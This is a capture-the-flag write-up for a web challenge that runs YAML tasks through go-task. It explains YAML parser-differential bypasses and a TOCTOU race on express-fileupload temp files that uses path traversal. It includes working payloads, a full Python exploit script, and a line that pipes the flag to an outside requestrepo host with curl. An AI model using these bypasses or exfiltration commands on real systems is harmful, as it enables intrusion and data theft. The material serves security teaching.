

## Description
> Automate your workflow by creating, editing, and running YAML tasks right in your browser.
> Use the smart editor, execute tasks securely, and share or reuse templates from the community!

## Challenge scenario
The challenge is an ExpressJS webapp that parses YAML files and executes the tasks defined in them using [go-task](https://github.com/go-task/task) binary. The goal is to achieve RCE and execute the `/readflag` setuid binary to get the flag. 


The following are the relevant files in the challenge:

**server.mjs**
```js
import express from 'express';
import fileUpload from 'express-fileupload';
import fs from 'fs/promises';
import sqlite3 from 'sqlite3';
import { open } from 'sqlite';
import cookieParser from 'cookie-parser';
import path from 'path';
import createApiRouter from './apiRouter.mjs';

const app = express();
const PORT = 3000;

let templates = JSON.parse(await fs.readFile('templates.json', 'utf-8'));
templates = templates.map(t => {
    t.cmdregex = new RegExp(t.cmdregex);
    return t;
});

const uploadsDir = path.resolve(path.dirname(new URL(import.meta.url).pathname), 'uploads');
await fs.mkdir(uploadsDir, { recursive: true });

app.use(express.urlencoded({ extended: true }));
app.use(express.json());
app.use(fileUpload({
    limits: { fileSize: 1 * 1024 * 1024 },
    abortOnLimit: true,
    useTempFiles: true,
    tempFileDir: '/tmp/'
}));
app.use(cookieParser());

const db = await open({
    filename: ':memory:',
    driver: sqlite3.Database
});

// Create a table if it doesn't exist
await db.exec(`
    CREATE TABLE IF NOT EXISTS users (
        id VARCHAR(40) PRIMARY KEY,
        username VARCHAR(40) NOT NULL,
        password VARCHAR(40) NOT NULL
    );
    
    CREATE TABLE IF NOT EXISTS tasks (
        id VARCHAR(40) PRIMARY KEY,
        user VARCHAR(40) NOT NULL,
        template VARCHAR(40) NOT NULL,
        ts DATETIME DEFAULT CURRENT_TIMESTAMP,
        FOREIGN KEY (user) REFERENCES users(id)
    );

    CREATE TABLE IF NOT EXISTS logs (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        task VARCHAR(40) NOT NULL,
        status VARCHAR(20) NOT NULL,
        output TEXT,
        ts DATETIME DEFAULT CURRENT_TIMESTAMP,
        FOREIGN KEY (task) REFERENCES tasks(id)
    );
`);

app.use( async (req, res, next) => {
    const userId = req.cookies.user_id;

    if (userId) {
        const user = await db.get('SELECT * FROM users WHERE id = ?', [userId]);
        if (user) {
            req.user = user;
        } else {
            req.user = null;
            res.clearCookie('user_id');
        }   
    } else {
        req.user = null;
    }
    next();
});

// Mount API router
app.use('/api', createApiRouter({ db, templates, uploadsDir}));


const buildPath = path.resolve(path.dirname(new URL(import.meta.url).pathname), '../frontend', 'build');
app.use(express.static(buildPath));
app.get('/{*any}', (_, res) => {
    res.sendFile(path.join(buildPath, 'index.html'));
});


app.listen(PORT, () => {
    console.log(`API server is running on http://localhost:${PORT}`);
});
```

This is the main ExpressJS server entrypoint and basically setups its options, inits the SQLite in-memory database, and mounts the API router. The app uses `express-fileupload` to handle file uploads with the following options:
```js
app.use(fileUpload({
    limits: { fileSize: 1 * 1024 * 1024 }, // 1MB limit
    abortOnLimit: true, // Abort on file size limit
    useTempFiles: true, // Use temporary files
    tempFileDir: '/tmp/' // Temporary file directory
}));
```

Meaning that `express-fileupload` will store the chunk of files being uploaded under `/tmp` until the upload is complete, and then move them to the `uploadsDir` directory, which is set to `./uploads` relative to the server entrypoint. Keep this in mind, because it will be relevant later on.

**apiRouter.mjs**
```js
import express from 'express';
import { randomUUID } from 'crypto';
import fs from 'fs/promises';
import yaml from 'yaml';
import { spawn } from 'child_process';


function checkTask(templates, data) {
  // Check if the file is a valid YAML file
  let yamlData = yaml.parse(data);

  // check if the yamlData is valid
  console.log('YAML data:', yamlData);

  if (yamlData === null || typeof yamlData !== 'object') {
    throw new Error('Invalid YAML data');
  }

  // get all keys
  const keys = Object.keys(yamlData);

  // keyys should be ONLY "version", "tasks"
  if (keys.length !== 2 || !keys.includes('version') || !keys.includes('tasks')) {
    throw new Error('Invalid YAML data');
  }
  // check if the version is 3
  if (yamlData.version !== 3) {
    throw new Error('Invalid YAML version');
  }
  // check if the tasks is an object
  if (typeof yamlData.tasks !== 'object' || Array.isArray(yamlData.tasks)) {
    throw new Error('Invalid YAML tasks');
  }
  // check if the tasks has only one key
  const taskKeys = Object.keys(yamlData.tasks);
  if (taskKeys.length !== 1 || taskKeys[0] !== 'task') {
    throw new Error('Invalid YAML tasks');
  }
  // check if the task is an object
  if (typeof yamlData.tasks.task !== 'object' || Array.isArray(yamlData.tasks.task)) {
    throw new Error('Invalid YAML task');
  }
  // check if the task has only one key
  const taskDataKeys = Object.keys(yamlData.tasks.task);
  if (taskDataKeys.length !== 1 || taskDataKeys[0] !== 'cmds') {
    throw new Error('Invalid YAML task data');
  }
  // check if the cmds is an array
  if (!Array.isArray(yamlData.tasks.task.cmds)) {
    throw new Error('Invalid YAML task cmds');
  }
  // check if the cmds has only one element
  if (yamlData.tasks.task.cmds.length !== 1) {
    throw new Error('Invalid YAML task cmds');
  }
  // check if the cmds is a string
  if (typeof yamlData.tasks.task.cmds[0] !== 'string') {
    throw new Error('Invalid YAML task cmd');
  }
  // check if the cmd is a valid command
  const cmd = yamlData.tasks.task.cmds[0];

  console.log('Command:', cmd);

  // check if it match at least one template regex
  const matchedTemplate = templates.find(t => t.cmdregex.test(cmd));
  if (!matchedTemplate) {
    throw new Error('Invalid YAML task cmd');
  }
}

export default function createApiRouter({ db, templates, uploadsDir }) {
  const router = express.Router();

  router.post('/login', async (req, res) => {
    const { username, password } = req.body;
    if (!username || !password) return res.status(400).json({ error: 'Username and password are required' });
    let user = await db.get('SELECT * FROM users WHERE username = ?', [username]);
    if (!user) {
      const user_id = randomUUID();
      await db.run('INSERT INTO users (id, username, password) VALUES (?, ?, ?)', [user_id, username, password]);
      res.cookie('user_id', user_id);
      return res.json({ success: true });
    }
    if (user.password !== password) return res.status(401).json({ error: 'Invalid credentials' });
    res.cookie('user_id', user.id);
    res.json({ success: true });
  });

  router.post('/logout', (req, res) => {
    res.clearCookie('user_id');
    res.json({ success: true });
  });

  // check auth
  router.use((req, res, next) => {
    if (!req.user) {
      return res.status(401).json({ error: 'Unauthorized' });
    }
    next();
  });

  router.get('/templates', (req, res) => {
    res.json(templates);
  });

  router.get('/templates/:id', (req, res) => {
    const { id } = req.params;
    const template = templates.find(t => t.id === id);
    if (!template) return res.status(404).json({ error: 'Template not found' });
    res.json(template);
  });

  router.get('/tasks', async (req, res) => {
    const tasks = await db.all('SELECT * FROM tasks WHERE user = ?', [req.user.id]);
    res.json(tasks);
  });

  router.get('/task/:id', async (req, res) => {
    const { id } = req.params;
    if (!id || !/[0-9a-z\-]{36}/.test(id)) return res.status(400).json({ error: 'Task ID is required' });
    const task = await db.get('SELECT * FROM tasks WHERE id = ?', [id]);
    if (!task) return res.status(404).json({ error: 'Task not found' });
    const templateData = templates.find(t => t.id === task.template);
    const logs = await db.all('SELECT * FROM logs WHERE task = ?', [id]);
    const filename = `${uploadsDir}/${id}`;
    let taskContent = '';
    try { taskContent = await fs.readFile(filename, 'utf-8'); } catch { }
    res.json({ task, template: templateData, logs, taskContent });
  });

  router.post('/upload', async (req, res) => {
    if (!req.files || Object.keys(req.files).length === 0 || !req.files.file) return res.status(400).json({ error: 'No files were uploaded.' });
    const { template } = req.query;
    const templateData = templates.find(t => t.id === template);
    if (!templateData) return res.status(404).json({ error: 'Template not found' });
    const file = req.files.file;
    const file_id = randomUUID();
    const uploadPath = `${uploadsDir}/${file_id}`;
    await file.mv(uploadPath);
    await db.run('INSERT INTO tasks (id, user, template) VALUES (?, ?, ?)', [file_id, req.user.id, template]);
    res.json({ id: file_id });
  });

  router.post('/check', async (req, res) => {
    const { id } = req.body;
    if (!id || !/[0-9a-z\-]{36}/.test(id)) return res.status(400).json({ error: 'Task ID is required' });
    const filename = `${uploadsDir}/${id}`;
    let data;
    try { data = await fs.readFile(filename, 'utf-8'); } catch { return res.status(404).json({ error: 'Task file not found' }); }
    try {
      checkTask(templates, data);
      return res.json({ valid: true });
    } catch (e) {
      return res.status(400).json({ error: 'Invalid task', details: e.message });
    }
  });

  router.post('/execute', async (req, res) => {
    const { id } = req.body;
    if (!id || !/[0-9a-z\-]{36}/.test(id)) return res.status(400).json({ error: 'Task ID is required' });
    const filename = `${uploadsDir}/${id}`;
    let data;
    try { data = await fs.readFile(filename, 'utf-8'); } catch { return res.status(404).json({ error: 'Task file not found' }); }
    try { checkTask(templates, data); } catch (e) {
      await db.run('INSERT INTO logs (task, status, output) VALUES (?, ?, ?)', [id, 'rejected', e.message]);
      return res.status(400).json({ error: 'Unsafe task', details: e.message });
    }
    const log = await db.run('INSERT INTO logs (task, status) VALUES (?, ?)', [id, 'running']);
    const logId = log.lastID;
    const child = spawn('task', ['-t', filename, 'task']);
    let stdout = '', stderr = '';
    let responded = false;
    child.stdout.on('data', (data) => { stdout += data.toString(); });
    child.stderr.on('data', (data) => { stderr += data.toString(); });
    child.on('error', async (err) => {
      if (!responded) {
        responded = true;
        await db.run('UPDATE logs SET status = ?, output = ? WHERE id = ?', ['error', err.message, logId]);
        res.status(500).json({ error: 'Execution error', details: err.message });
      }
    });
    child.on('close', async (code) => {
      if (!responded) {
        responded = true;
        const output = `STDOUT:\n${stdout}\nSTDERR:\n${stderr}\nExit code: ${code}`;
        await db.run('UPDATE logs SET status = ?, output = ? WHERE id = ?', ['completed', output, logId]);
        res.json({ status: 'completed', message: 'Task executed successfully' });
      }
    });
  });

  return router;
}
```
In the routes module we see the `/login` and `/logout` routes to handle user authentication, the `/upload` endpoint to upload YAML task files based on predefined templates that can be viewed later in the `/tasks` route, and the `/check` endpoint to validate the uploaded YAML files against the templates. The `/execute` endpoint is responsible for executing the task using the `go-task` binary, and it also logs the execution status in the database.  

All the available templates live inside the `templates.json` file, which are of the following format:
```json
{
    "id": "ping",
    "title": "Ping a Server",
    "description": "Check if a server is reachable using ICMP ping.",
    "icon": "fa-wifi",
    "content": "version: 3\ntasks:\n  task:\n    cmds:\n      - ping -c {{ n }} '{{ host }}'",
    "placeholders": {
        "host": "8.8.8.8",
        "n": "2"
    },
    "cmdregex" : "^ping -c \\d '([A-z0-9\\-_\\.]+)'$"
}
``` 

The `cmdregex` field is a regex that is used to validate the command in the YAML file, and it is used in the `checkTask()` function to ensure that the command matches one of the templates. The regex is used to prevent ACE and they're not too broken on all the templates.

## Unintended Solutions: NodeJS-Go Parsing Differentials
The `checkTask()` function is also pretty restrictive. However, that validation happens on the NodeJS side. Then, as said, the task is executed using the `go-task` external binary, and as the name suggests, it is written in Go. Guess what? As almost everything in computers, people define standards for complex operations, such as parsing YAML files (or parsing anything in general), and people basically do the fuck they want anyway. In fact, every web CTF player or websec guy, has at least one time exploited some kind of discrepancy e.g. between a "front-end" reverse proxy that proxies to an "upstream" backend server, allowing for so called HTTP smuggling or HTTP desync attacks. To be honest, not all the "non standard compliant" behaviour are intended, and most of them are just bugs. Many others also are caused by intrinsic behaviour of the programming language, as it happens for this challenge.  
*Moral of the story: when some sort of validation happens in framework/language X and then the same content is juggled to another framework/language Y, it should tickle your antennas*.  

At the time of solving this challenge, indeed, I searched for recent researches of such discrepancies on YAML parsers and I actually found many interesting blogs and videos, among them:
- [OffensiveCon25 - Joernchen - Parser Differentials: When Interpretation Becomes a Vulnerability](https://youtu.be/Dq_KVLXzxH8) 
- [Joernchen - Devfile file write vulnerability in GitLab](https://gitlab-com.gitlab.io/gl-security/security-tech-notes/security-research-tech-notes/devfile/)
- [taramtrampam - "Safe" YAML monster](https://gist.github.com/taramtrampam/fca4e599992909b48a3ba1ce69e215a2)

A more general research on different Go parsers was recently released by TrailOfBits [here](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).  

**The idea is now clear, upload a YAML that looks safe to the NodeJS parser but then evaluates to something else when executed by the `go-task` binary**. The most common approach is using the same "key" multiple times in the same document. While it's not a valid document, many parsers accept it but results can be different.

### `!!binary` tag and duplicate keys (by @Val)
An example is using the `!!binary` tag to define a binary string, where the decoded value is the same as the string representation of another key. This evaluates, based on who is parsing it, either in: **1)** two different keys, one with the binary value and one with the string value; **2)** a duplicate key of the same name, that could overwrite the previous value for example.  
Many players did solve using this approach indeed, see the following solve by [@Val](https://discord.com/channels/1248313330410459186/1251873089005027328/1381248912848851025)

```yaml
version: 3
tasks:
  task:
    cmds:
      - /readflag
  !!binary dGFzaw==:
    cmds:
      - echo 'hello world!'
```

What happens here is that the **NodeJS parser fully supports the binary-encoded keys** and evaluates the `!!binary dGFzaw==` key to `task` and then collapses the duplicated entry to a single one, resulting in the `echo 'hello world!'` command. **On the `go-task` side, instead, Go is happy with "multiple same keys" during validation as it compares `task` and `dGFzaw==` (not decoded keys)**. Although the YAML spec “MUST” flag duplicate keys as an error, [go-yaml v3](https://github.com/go-yaml/yaml) (which is a dependency of go-task) instead keeps them ([an issue](https://github.com/go-yaml/yaml/issues/623) is open regarding this). Finally, when `go-task` executes the task, it executes the `/readflag` command, because it appears first in the tasks list.

### Unicode escape sequences (by @Alemmi, @sebstr, @pysu)
Another approach by [@Alemmi](https://discord.com/channels/1248313330410459186/1251873089005027328/1381249400298274917) was to use Unicode escape sequences:
```yaml
version: 3
tasks:
  task:
    cmds:
      - echo 'hello\u2028    preconditions:\u2028      - /readflag \u2028      - aaa'
```
This works because the **NodeJS YAML parser does not treat the `\u2028` (line separator) as a line break (correctly following YAML 1.2 specs, since 1.2 dropped support for `U+2028` as a line-break character, it treats the glyph just like any other character in the string), while `go-task` relies on Go’s [go-yaml v3](https://github.com/go-yaml/yaml), which still implements the older YAML 1.1 rules**. In YAML 1.1 `U+2028` is still considered a legal line-break byte. The `/readflag` command now sits in a `precondition`, which go-task runs before the echo command.

A quite similar solution by [@sebstr](https://discord.com/channels/1248313330410459186/1251873089005027328/1381249318022811768) and [@pysu](https://discord.com/channels/1248313330410459186/1251873089005027328/1381250685680488530), instead, was to use carriage return line endings because they are treated as non-breaking characters. This is contrary to the YAML spec, which explicitly calls out CR, LF and CRLF as the (only) possible line breaks. Again, an issue about that is open on the `eemeli/yaml` repository [here](https://github.com/eemeli/yaml/issues/595).

### YAML's Anchors and Aliases (my solution)
My solution was a bit different:

```yaml
version: 3
tasks:
  &k "task":
    cmds:
      - "/readflag"
  ? *k
  :  cmds:
      - echo 'node'
```

Ok, what's going on there?  
The `&k` syntax defines an "anchor" for the `task` key, which can be referenced later using the `*k` syntax (alias). **What happens is that the NodeJS parser resolves the alias before it inserts the keys, so both entries become the JavaScript string `"task"`, and as previously occurred, the NodeJS parser collapses the two entries into a single one, keeping the last (safe) value. On the go-task side, as before, the parser is happy with the duplicate keys, executing the first one in the list**.  

Upload and execute whichever YAML monster you like the most and we get the flag :)


Another possible solution was to use the YAML's `<<` merge operator, but I didn't manage to make it work.

## Intended Solution: TOCTOU race condition in `checkTask()` by leveraging `express-fileupload` tempFiles
The actual intended solution turns out to be a race condition in the `/execute` endpoint by leveraging the `express-fileupload` temporary files, which is a bit more elaborate and complex solution than the previous one. I was indeed surprised to know that this was the actual intended solution, which, btw, I think it's a super cool primitive on Express.  
How does that work? Remember when I said to keep in mind the `express-fileupload` options? Well, **the `useTempFiles` option instructs `express-fileupload` to stream incoming files directly to disk** rather than loading them fully into memory, to avoid memory issues with large file uploads. That being said, we know that when uploading a YAML task file, express will create a temp file under `/tmp` and store for a brief moment the file stream here until the HTTP request completes.  
How could we exploit this? Imagine we could stop time in a specific moment of the file upload, while still being able to resume that upload later. If we could do that, we could upload a partial "safe" YAML file, like a simple `echo 'hello world!'` command, then call the `/execute` endpoint on the created temp file, and just as the `checkTask()` function validates the "safe" YAML file, we could then resume the upload by completing the YAML file with a malicious task (e.g. `/readflag`) and because the `go-task` process takes the filename as argument, it will execute the malicious task, effectively bypassing the checks. This is what's called a **TOCTOU (Time-of-check to time-of-use) race condition**. Check the screenshot below where I've highlighted the race window.



But hey, obviously we have some issues here. First of all, we can't stop time, and hitting such a small race window (before the tempFile gets deleted) by matching it with `/execute` execution during the file upload seems like a big gamble. Secondly, the `/execute` endpoint expects a task UUID, and the temp files generated by `express-fileupload` are of the form `tmp-<n_upload>-<ms_timestamp>`, where `<n_upload>` is a number that increments with each upload and `<ms_timestamp>` is the timestamp in milliseconds when the upload started, therefore it won't go past the regex at `L163`.  
How do we cope with these?  
1) `express-fileupload` streams the file to disk in chunks until the given `content-length` is reached or once it gets the end boundary in case of a multipart upload. This means we could send a very large `content-length` header, and then upload a small chunk of data, which will be written to the temp file while still having the server waiting for the whole body to be sent, i.e. leaving the partial file written to disk for a while until we send all the bytes the server is expecting. This makes our race much more feasible. Actually we could just use `Transfer-Encoding: chunked` and don't close the end boundary until we want.
2) The validating regex at `L163` is flawed. It doesn't correctly define start/end of line boundaries (`^`, `$`), meaning any matching 36-chars substring will pass the check. In other words, if we send `../../../../../../<whatever-36-bytes-long-dir>/../../../../../../../tmp/<tempFile>`, the regex will match the `<whatever-36-bytes-long-filename>` substring and consider it valid; that path however will finally evaluate to the `/tmp/<tempFile>` file, effectively bypassing the regex.  

That exploitation path works, we will just need to guess the `tmp-<n_upload>-<ms_timestamp>` filename, which is not too hard to do, since we can use the `/check` endpoint as oracle to see if a file exists or not, and just spin a small brute. We also need to hit the TOCTOU race window by resuming the upload in the exact moment the `checkTask()` function has validated the safe file, but we can just spam a bunch of `/execute` requests and eventually one will hit the race window.  

We got this. Let's recap our plan:
1) Upload our exploit YAML file up to a "safe" point, e.g. until a `cmds: - echo 'im safe'`, while keeping the connection open
2) Guess the tempfile generated by `express-fileupload` using the `/check` endpoint as oracle
3) Spam the `/execute` endpoint with the retrieved temp file AND at the same time release the upload connection by letting it complete the YAML task file with a malicious command, e.g. `cmds: - /readflag` and pray that one of the `/execute` requests will hit the race window.

Here's the "safe" YAML file that becomes malicious once fully completed:

**safe.yaml**
```yaml
version: 3
tasks:
  task:
    cmds:
      - echo 'safe until here'
      - /readflag | curl -X POST -d @- https://m0zdqazr.requestrepo.com/flag
```

And here there's my solve script that implements the above plan:

```python
#!/usr/bin/env python3

import io
import time
import string
import random
import urllib3
import requests
import threading

TARGET_URL = "http://127.0.0.1:3001"
LOGIN_ENDPOINT = f"{TARGET_URL}/api/login"
UPLOAD_ENDPOINT = f"{TARGET_URL}/api/upload?template=echo"
CHECK_ENDPOINT = f"{TARGET_URL}/api/check"
EXECUTE_ENDPOINT = f"{TARGET_URL}/api/execute"

start_exploit_event = threading.Event()
resume_upload_event = threading.Event()
upload_completed_event = threading.Event()

def chunked_body_generator(file: str, first_chunk_size: int):
    boundary = "----palleboundary"
    yield f"--{boundary}\r\n".encode()
    yield f'Content-Disposition: form-data; name="file"; filename="{file}"\r\n'.encode()
    yield b"Content-Type: application/x-yaml\r\n\r\n"
    with open(file, "rb") as f:
        data = f.read(first_chunk_size)
        yield data # return first chunk
        print("[*] first chunk sent, waiting for resume event...")
        start_exploit_event.set()
        resume_upload_event.wait() # wait for resume event
        print("[*] resume event received, continuing upload...")
        yield f.read() # return the rest of the file
        yield b"\r\n"
        yield f"--{boundary}\r\n".encode() # end of chunk

def upload_and_keep_conn_open(session: requests.Session, file: str, n_bytes: int) -> None:
    headers = {
        "Cookie": session.cookies.get("user_id"),
        "x-start-time": str(time.strftime("%H:%M:%S GMT", time.gmtime())),
        "Content-Type": "multipart/form-data; boundary=----palleboundary",
    }
    # use urllib3 because python-requests will buffer the body
    r = urllib3.PoolManager().request(
        "POST",
        UPLOAD_ENDPOINT,
        body=chunked_body_generator(file, n_bytes),
        headers=headers,
        chunked=True,
    )
    #assert r.status == 200, "Upload failed"
    
def resume_upload() -> None:
    # TOCTOU here by completing the yaml upload with a malicious task just after the safe tasks check finishes 
    print("[*] finished doing silly things, resuming upload...")
    resume_upload_event.set()  # signal to resume the upload

def exploit(session: requests.Session, upload_timestamp: int) -> None:
    start_exploit_event.wait() # wait for the upload to send the first chunk
    print("[*] doing silly things while upload connection is open...")
    # find the tempFile created by express-fileupload
    print("[*] searching for the temp file...")
    target_tmp_file = find_temp_file(session, upload_timestamp)
    # execute the temp file with path traversal and a matching 36 chars filename to bypass UUID regex check
    threading.Thread(target=spam_execute, args=(session, target_tmp_file), daemon=True).start()
    time.sleep(1) # give some time for the execute thread to start

def find_temp_file(session: requests.Session, upload_timestamp_ms: int) -> str:
    # express-fileupload creates a temp file of the form:
    # /tmp/tmp-<n_upload>-<ms_timestamp>
    # where <n_upload> is a number that increments with each upload
    # and <ms_timestamp> is the timestamp in milliseconds when the upload started
    # we can guess the temp file name by iterating over possible values
    for n_upload in range(1, 250): # assuming a max of 250 uploads in the server among all users
        for t in range(500): # assuming a max of 500 ms overhead for the upload
            guess_file_name = f"tmp-{n_upload}-{upload_timestamp_ms + t}"
            # path traversal with a 36 chars directory inside to bypass the UUID regex check
            target_tmp_file = f"../../../../../../app/frontend/node_modules/json-stable-stringify-without-jsonify/../../../../../../../tmp/{guess_file_name}"
            print(f"[*] guessing temp file name: {guess_file_name}")
            # we use the check endpoint as oracle to check if the file exists based on the response status code
            r = session.post(CHECK_ENDPOINT, json={"id": target_tmp_file})
            if r.status_code != 404:
                print(f"[!] found target temp file: {target_tmp_file}")
                return target_tmp_file
            
def spam_execute(session: requests.Session, target_tmp_file: str) -> None:
    # spam the execute endpoint until the file upload is complete to try get into the TOCTOU window
    while not upload_completed_event.is_set():
        r = session.post(EXECUTE_ENDPOINT, json={"id": target_tmp_file})
        print(f"[*] executing task {target_tmp_file}, status code: {r.status_code}")
        if r.status_code != 200:
            print(f"[!] error executing {target_tmp_file}, status code: {r.status_code}")
            print(r.text)

def login(s: requests.Session) -> None:
    username = "".join(random.choices(string.ascii_lowercase, k=8))
    password = "".join(random.choices(string.ascii_lowercase, k=8))
    print(f"logging in as: {username}:{password}")
    r = s.post(LOGIN_ENDPOINT, json={"username": username, "password": password})
    r.raise_for_status()

def main():
    s = requests.Session()
    #s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
    login(s)
    upload_timestamp_ms = int(time.time() * 1_000)
    print(f"[*] starting upload at timestamp {upload_timestamp_ms}")
    t = threading.Thread(target=upload_and_keep_conn_open, args=(s, "safe.yaml", 57))
    t.start()
    exploit(s, upload_timestamp_ms) # do something while the connection is open
    resume_upload()
    t.join()  # wait for the upload thread to finish
    upload_completed_event.set()  # signal that the upload is complete
    print("[*] exploit completed")

if __name__ == "__main__":
    main()
```


> Flag: `TeamItaly{n0_w4y_7h4t's_A_s4fe_Ta5k_06a77416}`